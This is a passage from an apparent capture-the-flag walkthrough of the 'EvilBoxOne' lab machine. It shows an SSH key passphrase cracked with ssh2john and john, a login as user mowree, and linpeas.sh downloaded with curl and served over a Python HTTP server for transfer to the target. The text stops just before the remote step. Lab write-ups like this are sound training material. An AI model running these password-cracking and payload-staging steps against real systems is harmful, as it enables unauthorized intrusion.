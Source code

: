 ```shell
ssh2john id_rsa.key >> id_rsa.john
```
The default john wordlist is probably enough.
```shell
┌──(kali㉿kali)-[~/evilbox1]
└─$ john id_rsa.john
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
unicorn          (id_rsa.key) 
```
we got the passphrase! 
now we have to change the keys perms to be usable 
```shell
sudo chmod 600 id_rsa.key
```
```
┌──(kali㉿kali)-[~/evilbox1]
└─$ ssh -i id_rsa.key mowree@192.168.141.212
Enter passphrase for key 'id_rsa.key': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ 
```
We're in! 

```shell
cat local.txt
```

We have to gain some more privs now

Lets run linpeas.sh

on my local box

```shell
──(kali㉿kali)-[~]
└─$ curl https://linpeas.sh/ >> peas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  753k    0  753k    0     0  1214k      0 --:--:-- --:--:-- --:--:-- 1215k
                                                                                
                                                                                                    
┌──(kali㉿kali)-[~]
└─$ python3 -m 'http.server'
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
on the remote machine
